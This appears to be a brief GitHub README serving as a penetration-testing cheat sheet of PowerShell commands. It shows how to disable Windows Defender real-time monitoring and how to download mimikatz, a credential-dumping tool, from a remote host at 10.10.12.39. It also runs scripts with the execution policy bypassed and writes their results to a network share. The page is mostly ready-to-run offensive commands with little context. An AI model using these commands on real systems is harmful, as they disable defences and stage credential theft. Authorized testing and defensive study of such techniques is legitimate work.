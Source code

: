 # praia_essential_commands
Command for pentest

# Disable Windows Defender on Windows 10 using PowerShell
#### Fire up a PowerShell window as administrator and run the following command:

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $true

#### Just set the DisableRealTimeMonitoring back to false to re-enable the real-time monitoring within Defender.

PS C:\> Set-MpPreference -DisableRealtimeMonitoring $false


# File Transfer

PS C:\> powershell.exe wget http://10.10.12.39/mimikatz.exe -outfile C:\users\administrator\desktop\mimikatz.exe
PS C:\> powershell.exe Invoke-WebRequest http://10.10.12.39/mimikatz.exe -o mimikatz.exe

# Running a Powershell function from command line.

#### First Step (Load PS1 file):

PS C:\> powershell.exe -executionpolicy bypass -file "\\#SERVER\Get-RDPCertificate.ps1"

#### Second Step (Execute Function):

PS C:\> powershell.exe -executionpolicy bypass -command {"Get-RDPCertificate -Computername $env:COMPUTERNAME | Out-File -filepath (\\#SERVER\$env:computername-$(get-date -f MM-dd-yy).txt)"}




 
